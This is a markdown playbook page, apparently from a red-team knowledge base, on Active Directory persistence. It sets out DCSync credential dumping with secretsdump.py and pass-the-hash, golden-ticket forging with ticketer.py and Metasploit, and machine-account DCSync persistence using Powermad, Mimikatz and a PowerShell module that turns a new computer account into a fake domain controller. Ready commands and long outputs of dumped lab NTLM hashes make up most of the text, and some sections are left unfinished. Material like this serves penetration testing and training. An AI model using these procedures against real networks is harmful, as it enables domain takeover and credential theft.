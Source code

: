 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# AD Advanced Persistence
### Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@active #@directory #@activedirectory #@microsoft

Context

		#@dcsync #@kerberos #@golden #@ticket #@domain #@persistence #@persist

Tools

		#@secretsdump.py #@impacket #@secretsdump

</p></details>

### References

### Overview


### Process
#### From a Linux Machine
* DCSync
	* DCSync with Pass-the-Hash ([TTP](TTP/T1003_OS_Credential_Dumping/006_DCSync/T1003.006.md))
		* <details><summary>Recommended: Secretsdump.py (Impacket) (Click to expand)</summary><p>
			* Examples
				* Example 1: Most Data Collection

						secretsdump.py $DOMAIN/$DOMAIN_ADMIN@$DOMAIN_CONTROLLER -hashes :$NTHASH -pwd-last-set -history -user-status -o outfile.txt
					* <details><summary>Example Output (Click to expand)</summary><p>

							root@jack-Virtual-Machine:~# secretsdump.py $DOMAIN/$DOMAIN_ADMIN@$DOMAIN_CONTROLLER -hashes :$NTHASH -pwd-last-set -history -user-status                          
							Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation                                                                              
							                                                                                                                                                                   
							[*] Service RemoteRegistry is in stopped state                                                                                                                     
							[*] Starting service RemoteRegistry                                                                                                                                
							[*] Target system bootKey: 0x15003c60281cd7a996eb96310d049c6d                                                                                                      
							[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                                                               
							Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                                             
							Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
							DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                            
							[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.                                                           
							[*] Dumping cached domain logon information (domain/username:hash)                                                                                                 
							[*] Dumping LSA Secrets                                                                                                                                            
							[*] $MACHINE.ACC                                                                                                                                                   
							MICROSOFTDELIVE\DC01$:aes256-cts-hmac-sha1-96:efb4a8a4ffd658e0833fbfbabb4015a7451280cd99017932282d704beae2d8c2                                                     
							MICROSOFTDELIVE\DC01$:aes128-cts-hmac-sha1-96:70dd153e7c9bc7cd2be95fd58232698f                                                                                     
							MICROSOFTDELIVE\DC01$:des-cbc-md5:7a64a26e835816c2                                                                                                                 
							MICROSOFTDELIVE\DC01$:plain_password_hex:8697a026482afa02a73cee3d403063eaa715de0da2de33761b88e9c68276309a35179e6364bbf0d2597785c0c9ca9646b2c8e827b7389bd039c3528c45
							db517adcf426fbd403bb0c90d8ec5382f4626f3e242cf44f59c09db3fd63d779e989a148177a29c98e7ebc20a0bf90fbbb064b08690bc1a07b28cd1969d1b74106eb309692b04dc170c92056ddd4c9f787c
							f3faa8782271d36d8305c53bea89331a7d1288e9481f9d4bdd299d17e66d226f1394b8be268fa0742d8c521951bc500ca4dc4bc98ecbd52ae33ddc66ff6e880484c91101243912950852da90da2af1cc9f2
							59f22068bcb076ad0a0f1ec8240ccfab                                                                                                                                   
							MICROSOFTDELIVE\DC01$:aad3b435b51404eeaad3b435b51404ee:94f2721f78c81bb17b4e3b39acb1cba0:::                                                                         
							[*] $MACHINE.ACC_history 
							MICROSOFTDELIVE\DC01$:aes256-cts-hmac-sha1-96:601ccd42ada79b30145324847696e3ab85e59240c6aff7b24d52b44ef67fb168
							MICROSOFTDELIVE\DC01$:aes128-cts-hmac-sha1-96:53ad66afcfb8990826cc6a8eef55442b
							MICROSOFTDELIVE\DC01$:des-cbc-md5:972cfba40b6b2c8c
							MICROSOFTDELIVE\DC01$:plain_password_hex:6fc0bec7d050a2bdedc1c94a07413e8b2083571f28a9c98be5ef186d30ed85f35e7598bab0c00a6a371c05e379a51f459026b6ef81f15c4e7c8a2d5daf
							54eab65fd3c8ff1dfc9a1d2a01d2bc364a6bc144708e2751588a5013b91b9e51eae7f00931d901421b4f743b9d4f94884de687141344f297bb61aaa10e2fd3e3ac577c7d01a26b3ccc249fb42898c43cea1
							f18d8ba1313ab8a8b196959e0cbe223a6e94692fbec95f3fa8d751ea7f5ab447c7572faeac81bdb70015372329c544f36a6f46c67a0b2bd6051e63ed7c80c1a874887d14d615e6c4662cb1096ecbd554288
							3b719e2950fbc22507355475f89b97be
							MICROSOFTDELIVE\DC01$:aad3b435b51404eeaad3b435b51404ee:c3b538a0e98cb39544be97dc3a9c3ddb:::

							<TRUNCATED>

							NL$KM:d4df59c53532c8069d972281baf28b61ac89d7b335ec1cbd4501ef69bf44ce75e87cf207af1cbb2b67bebd58a1ed34d4e8084ede8469505f702ee05a4028f892                             
							[*] NL$KM_history                                                                                                                                                  
							 0000   D4 DF 59 C5 35 32 C8 06  9D 97 22 81 BA F2 8B 61   ..Y.52...."....a                                                                                        
							 0010   AC 89 D7 B3 35 EC 1C BD  45 01 EF 69 BF 44 CE 75   ....5...E..i.D.u                                                                                        
							 0020   E8 7C F2 07 AF 1C BB 2B  67 BE BD 58 A1 ED 34 D4   .|.....+g..X..4.                                                                                        
							 0030   E8 08 4E DE 84 69 50 5F  70 2E E0 5A 40 28 F8 92   ..N..iP_p..Z@(..                                                                                        
							NL$KM_history:d4df59c53532c8069d972281baf28b61ac89d7b335ec1cbd4501ef69bf44ce75e87cf207af1cbb2b67bebd58a1ed34d4e8084ede8469505f702ee05a4028f892                     
							[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                      
							[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                               
							Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-06-24 11:39) (status=Enabled)                              
							Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (pwdLastSet=never) (status=Disabled)                                                
							krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9dbba9a65b04b9752b47b29860722ece::: (pwdLastSet=2022-06-24 13:27) (status=Disabled)                                    
							microsoftdelivery.com\domain_admin:1105:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-06-24 13:34) (status=Enabled)        
							microsoftdelivery.com\domain_user:1106:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-06-24 13:35) (status=Enabled)         
							MSOL_acade27cae4b:1107:aad3b435b51404eeaad3b435b51404ee:1ecc20ea19e35fb777c0a4f24c0fc500::: (pwdLastSet=2022-06-24 16:05) (status=Enabled)                         
							microsoftdelivery.com\Domain_User_ADCS:1114:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-09 15:11) (status=Enabled)    
							microsoftdelivery.com\domain_user_writer:1115:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-10 10:09) (status=Enabled)  
							microsoftdelivery.com\domain_user_target:1116:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-10 10:09) (status=Enabled)  
							microsoftdelivery.com\kerberoastable:1120:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-12 20:28) (status=Enabled)      
							microsoftdelivery.com\domain_user_builtin:1121:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-12 21:10) (status=Enabled) 
							microsoftdelivery.com\backup_operator:1122:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-17 14:50) (status=Enabled)     
							microsoftdelivery.com\account_operator:1123:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-17 14:59) (status=Enabled)    
							microsoftdelivery.com\dns_admin:1124:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-17 15:00) (status=Enabled)           
							microsoftdelivery.com\server_operator:1125:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-17 15:00) (status=Enabled)     
							microsoftdelivery.com\schema_admin:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-17 15:00) (status=Enabled)        
							microsoftdelivery.com\asreproastable:1127:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=2022-08-17 15:03) (status=Enabled)      
							DC01$:1002:aad3b435b51404eeaad3b435b51404ee:94f2721f78c81bb17b4e3b39acb1cba0::: (pwdLastSet=2022-07-24 21:44) (status=Enabled)                                     
							AZUREADSSOACC$:1108:aad3b435b51404eeaad3b435b51404ee:da7f997861cfcb15397cf2b2c20441e3::: (pwdLastSet=2022-06-24 16:30) (status=Enabled)                            
							DC02$:1109:aad3b435b51404eeaad3b435b51404ee:6d7c86913417701e4d8aed339869afec::: (pwdLastSet=2022-08-12 20:36) (status=Enabled)                                     
							DC02$_history0:1109:aad3b435b51404eeaad3b435b51404ee:31c2c0d119d0cb9e1a0114009e1a1b38:::
							CA$:1110:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42::: (pwdLastSet=never) (status=Enabled)
							CA$_history0:1110:aad3b435b51404eeaad3b435b51404ee:fcbf81ccf4c8b21fa343ca3fbcbf2ff1:::
							CA$_history1:1110:aad3b435b51404eeaad3b435b51404ee:aff2a270a91ccb319764c90ef4ff9e20:::
							<TRUNCATED>
				* Example 2: Basic Data Collection

						secretsdump.py -just-dc $DOMAIN/$DOMAIN_ADMIN@$DOMAIN_CONTROLLER -hashes :$NTHASH
					* <details><summary>Example Output (Click to expand)</summary><p>

							root@jack-Virtual-Machine:~# secretsdump.py -just-dc $DOMAIN/$DOMAIN_ADMIN@$DOMAIN_CONTROLLER -hashes :$NTHASH                                                     
							Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation                                                                              
							                                                                                                                                                                   
							[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                      
							[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                               
							Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                                             
							Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
							krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9dbba9a65b04b9752b47b29860722ece:::                                                                                    
							microsoftdelivery.com\domain_admin:1105:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                       
							microsoftdelivery.com\domain_user:1106:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                        
							MSOL_acade27cae4b:1107:aad3b435b51404eeaad3b435b51404ee:1ecc20ea19e35fb777c0a4f24c0fc500:::                                                                        
							microsoftdelivery.com\Domain_User_ADCS:1114:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                   
							microsoftdelivery.com\domain_user_writer:1115:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                 
							microsoftdelivery.com\domain_user_target:1116:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                 
							microsoftdelivery.com\kerberoastable:1120:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                     
							microsoftdelivery.com\domain_user_builtin:1121:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                
							microsoftdelivery.com\backup_operator:1122:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::                                                    
							microsoftdelivery.com\account_operator:1123:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
							microsoftdelivery.com\dns_admin:1124:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
							microsoftdelivery.com\server_operator:1125:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
							microsoftdelivery.com\schema_admin:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
							microsoftdelivery.com\asreproastable:1127:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
							DC01$:1002:aad3b435b51404eeaad3b435b51404ee:94f2721f78c81bb17b4e3b39acb1cba0:::
							AZUREADSSOACC$:1108:aad3b435b51404eeaad3b435b51404ee:da7f997861cfcb15397cf2b2c20441e3:::
							DC02$:1109:aad3b435b51404eeaad3b435b51404ee:6d7c86913417701e4d8aed339869afec:::
							CA$:1110:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
							EXCHANGE$:1111:aad3b435b51404eeaad3b435b51404ee:4dd05161179eb2b2be7d8d7406037005:::
							APP$:1112:aad3b435b51404eeaad3b435b51404ee:d113631151c72b8a807aa891c85c1f45:::
							WIN11$:1113:aad3b435b51404eeaad3b435b51404ee:a0a3b45f929e097b3454477231a43e28:::
							DESKTOP-IHAD3T62$:1118:aad3b435b51404eeaad3b435b51404ee:2cf707d270d1b3a2a00b295dffa41410:::
							KERBEROSUNCD$:1129:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
	* Machine Account DCSync
		* <details><summary>References (Click to expand)</summary><p>
			* [https://gist.github.com/netbiosX/089a9d97a4f60016a6935500f328c17c](https://gist.github.com/netbiosX/089a9d97a4f60016a6935500f328c17c)
			* [https://stealthbits.com/blog/server-untrust-account/](https://stealthbits.com/blog/server-untrust-account/)
			* [https://github.com/STEALTHbits/ServerUntrustAccount](https://github.com/STEALTHbits/ServerUntrustAccount)
			* [https://adsecurity.org/?p=2753](https://adsecurity.org/?p=2753)
			* [https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/](https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/)
		* Requirements
			* `ms-DS-MachineAccountQuota` - By default allows 10 computers added
		* <details><summary>Process (Click to expand)</summary><p>
			1. Create a new computer account's group
				* impacket's addcomputer.py -<br />

						addcomputer.py
			1. Modify the computer  account's group

			1. 
* Kerberos Golden Ticket Attack ([`Steal or Forge Kerberos Tickets - Golden Ticket` TTP](TTP/T1558_Steal_or_Forge_Kerberos_Tickets/001_Golden_Ticket/T1558.001.md))
	* References
		* [https://pentestlab.blog/2018/04/09/golden-ticket/](https://pentestlab.blog/2018/04/09/golden-ticket/)
	* Process
		* <details><summary>Impacket (Click to expand)</summary><p>
			1. Enumerate the domain SID. The target must(?) be a domain-joined Windows system, but not necessarily the domain controller.

					lookupsid.py $DOMAIN/$DOMAIN_USER@$TARGET 0
				* Example Output

						[*] Brute forcing SIDs at 192.168.0.37
						[*] StringBinding ncacn_np:192.168.0.37[\pipe\lsarpc]
						[*] Domain SID is: S-1-5-21-2959836547-4011815163-3994231233
			1. Use the compromised KRBTGT Hash to generate the goldent ticket

					ticketer.py -nthash $NTHASH -domain-sid $DOMAIN_SID -domain $DOMAIN TargetUser
				* Example Output

						[*] Creating basic skeleton ticket and PAC Infos
						[*] Customizing ticket for purple.lab/Administrator
						[*]     PAC_LOGON_INFO                                              
						[*]     PAC_CLIENT_INFO_TYPE                                        
						[*]     EncTicketPart                                               
						[*]     EncAsRepPart                                                
						[*] Signing/Encrypting final ticket
						[*]     PAC_SERVER_CHECKSUM                                         
						[*]     PAC_PRIVSVR_CHECKSUM                                        
						[*]     EncTicketPart                                               
						[*]     EncASRepPart                                                
						[*] Saving ticket in Administrator.ccache
			1. Export the ccache file to be used with impacket

					export KRB5CCNAME=/path/to/file.ccache
			1. Use the kerberos authentication with impacket (wmiexec/smbexec/psexec/dcomexec). The domain and the target must be reachable via DNS or a custom entry in /etc/hosts (e.g., `192.168.1.10 target.domain`)

					wmiexec.py -k -no-pass target.domain/userName@host.target.domain

#### From a Windows Machine
* DCSync
	* <details><summary>Rubeus (Click to expand)</summary><p>
* Kerberos Golden Ticket Attack ([`Steal or Forge Kerberos Tickets - Golden Ticket` TTP](TTP/T1558_Steal_or_Forge_Kerberos_Tickets/001_Golden_Ticket/T1558.001.md))
* Machine Account DCSync
	* References
		* [https://gist.github.com/netbiosX/089a9d97a4f60016a6935500f328c17c](https://gist.github.com/netbiosX/089a9d97a4f60016a6935500f328c17c)
		* [https://github.com/STEALTHbits/ServerUntrustAccount](https://github.com/STEALTHbits/ServerUntrustAccount)
		* [https://adsecurity.org/?p=2753](https://adsecurity.org/?p=2753)
		* [https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/](https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/)
	* Requirements
		* `ms-DS-MachineAccountQuota` - By default allows 10 computers added
		* Machine account `userAccountControl` attribute must be `0x2000 = ( SERVER_TRUST_ACCOUNT )` (`8192` in decimal format)
			* Requires DA to modify
	* Overview
		* Creates a new machine account to perform DCSync with instead of targeting a legitimate DC.
	* Process
		* <details><summary>Method 1: Steps broken apart</summary><p>
			1. Create a new computer account
				* PowerMad

						Import-Module .\Powermad.psm1
						New-MachineAccount -MachineAccount <MachineAccountName> -Domain lab.local -DomainController dc.lab.local
					* You will be prompted to enter password for the account
				* The new computer primary group id is `515`
			1. Modify the computer account's group

					Get-ADComputer <newcomputername> -pro * | Select-object name, primarygroupid, useraccountcontrol
					Set-ADComputer <newcomputername> -replace @{ "userAccountcontrol" = 8192 }
			1. Inject the NTLM hash version of the password for use in DCSync
				* Mimikatz

						privilege::debug
						sekurlsa::pth /user:<machineaccount> /domain:domain.local /ntlm:<NTLMHash>
			1. Perform a DCSync
				* Mimikatz

						lsadump::dcsync /domain:domain.local /user:krbtgt
		* <details><summary>Method 2: Invoke-ServerUntrustAccount</summary><p>
			* References
				* [https://stealthbits.com/blog/server-untrust-account/](https://stealthbits.com/blog/server-untrust-account/)
			* Process
				1. Create Computer Account

						Import-Module .\ServerUntrustACcount.ps1; Add-ServerUntrustAccount -ComputerName "<computer_name>" -Password "<password>" -Verbose
				1. Collect the password hash of the krbtgt account

						Invoke-ServerUntrustAccount -ComputerName "Pentestlab" -Password "Password123" -MimikatzPath ".\mimikatz.exe"
		* <details><summary>Method 3: NetBiosX/PentestLabs PowerShell Single-Step Make account with DC properties</summary><p>
			* References
				* netbiosx GitHub -<br />[https://gist.github.com/netbiosX/089a9d97a4f60016a6935500f328c17c](https://gist.github.com/netbiosX/089a9d97a4f60016a6935500f328c17c)
				* PentestLab Blog -<br />[https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/](https://pentestlab.blog/2022/01/17/domain-persistence-machine-account/)
			* Process
				1. Create the following PowerShell module.

						function Execute-userAccountControl
						{
						[CmdletBinding()]
						        param
						        (
						                [System.String]$DomainFQDN = $ENV:USERDNSDOMAIN,
						                [System.String]$ComputerName = 'Pentestlab',
						                [System.String]$OSVersion = '10.0 (18363)',
						                [System.String]$OS = 'Windows 10 Enterprise',
						                [System.String]$DNSName = "$ComputerName.$DomainFQDN",
						$MachineAccount = 'Pentestlab'
						        )
						$secureString = convertto-securestring "Password123" -asplaintext -force
						$VerbosePreference = "Continue"
						 
						Write-Verbose -Message "Creating Computer Account: $ComputerName"
						New-ADComputer $ComputerName -AccountPassword $securestring -Enabled $true -OperatingSystem $OS -OperatingSystemVersion $OS_Version -DNSHostName
						$DNSName -ErrorAction Stop;
						Write-Verbose -Message "$ComputerName created!"
						Write-Verbose -Message "Attempting to establish persistence."
						Write-Verbose -Message "Changing the userAccountControl attribute of $MachineAccount computer to 8192."
						Set-ADComputer $MachineAccount -replace @{ "userAccountcontrol" = 8192 };
						Write-Verbose -Message "$MachineAccount is now a Domain Controller!"
						Write-Verbose -Message "Domain persistence established!You can now use the DCSync technique with Pentestlab credentials."
						$VerbosePreference = "Continue"
						}
				1. Execute the  Module

						Import-Module .\userAccountControl.ps1
						Execute-userAccountControl
		* <details><summary>Method 4: Use existing machine accounts</summary><p>M
			1. Identify Administrator of AD

					Get-ADGroupMember "Administrators"
			1. Add the machine account to DA group

					net group "Domain Admins" <machineaccountwithdollarsign> /add /domain
* Golden Certificate
	* Needs Research: GhostPack's GitHub: ForgeCert -<br />[https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)

#### From a C2
* Golden Tickets
	* <details><summary>Metasploit (Click to expand)</summary><p>
		* References
			* [https://pentestlab.blog/2018/04/09/golden-ticket/](https://pentestlab.blog/2018/04/09/golden-ticket/)
		* Process
			1. Use the Golden Ticket module

					post/windows/escalate/golden_ticket
			1. Set variables

					set KRBTGT_HASH <KRBTGT_HASH>
					set DOMAIN SID <DOMAIN_SID>
					set DOMAIN <DOMAIN>
					set USER Administrator
					set GROUPS 512,513,518,519,520
			1. Execute

					run
